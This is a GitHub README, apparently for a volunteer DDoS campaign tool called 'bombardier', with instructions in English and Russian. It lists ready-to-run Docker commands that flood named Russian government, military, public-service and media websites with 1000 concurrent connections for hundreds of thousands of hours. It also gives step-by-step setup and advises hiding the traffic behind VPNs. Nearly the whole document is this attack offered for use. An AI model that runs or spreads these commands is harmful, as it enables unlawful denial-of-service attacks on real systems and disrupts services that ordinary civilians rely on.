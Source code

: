 # bombardier
Fight agains propoganda

If you have kubertnetes cluster `./run_all_kuber.sh`
<br>

For BEST usage from local PC/laptop please use VPN
Psiphon
Secure VPN
Proton VPN 
SurfShark

or
Clear VPN 
Proton VPN
Nord VPN


From local PC MAC/Linux `./run_all_docker.sh`
<br>
You can specify the path to the file with the URLs: `./run_all_docker.sh file.txt` or `./run_all_kuber.sh file.txt`
<br>
or easiest way 

`docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mil.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l http://www.scrf.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://ach.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://epp.genproc.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.gosuslugi.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.1tv.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mid.ru`
<br>

Инструкция для пользователей Windows и Mac: 
1. Установить Docker: https://www.docker.com/products/docker-desktop 
2. Запустить докер и убедиться, что Docker Started 
3. Зайти сюда https://github.com/almerico/bombardier/blob/main/README.md 
4. Найти в программах Windows Command Prompt и запустить от имени Администратора 
5. Запустить столько отдельных CMD консолей, сколько вы собираетесь запускать скриптов (каждая строчка - скрипт) 
6. Запустить все цели из resources.txt для виндовс из Консли run_windows.bat для Linux/Mac ./run_all_docker.sh для целей из resources.txt (или ./run_all_docker.sh файл-с-целями)
7. Скопировать скрипт (например docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru) и нажать энтер 
8. Убедиться, что процесс пошёл 
9. Ждать падения рашки


Instruction for Windows and Mac: 
1. Install Docker: https://www.docker.com/products/docker-desktop (For mac please pay attention if you download version for the correct chip) 
2. Launch Docker and make sure that Docker is running 
3. Go here https://github.com/almerico/bombardier/blob/main/README.md 
4. Find in application Windows Command Prompt or Terminal for Mac and launch as an admin. 
5. Open as many separate CMD consoles as many scripts you are going to launch (each line – one script) 
6. Copy script (e.g. docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru) and press Enter
7. Make sure that the process started 
8. Wait till russia fall
